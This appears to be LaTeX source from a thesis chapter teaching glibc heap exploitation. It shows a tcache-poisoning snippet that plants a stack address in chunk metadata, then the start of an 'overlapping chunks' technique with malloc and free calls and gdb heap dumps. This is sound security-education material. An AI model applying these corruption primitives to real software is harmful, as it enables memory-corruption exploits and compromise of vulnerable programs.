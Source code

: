 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *b = malloc(0x120);
b[0x120/8-2] = (long)stack_var;
malloc(0x100);
intptr_t *c = malloc(0x100);
\end{lstlisting}

 \begin{figure}[h!]
 \caption{\tch{}}
 \label{fig:gdb12}
\end{figure}


\section{ Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory:

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
\end{lstlisting}

Now lets \freec{} the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE) top chunk
\end{lstlisting}
\end{document}
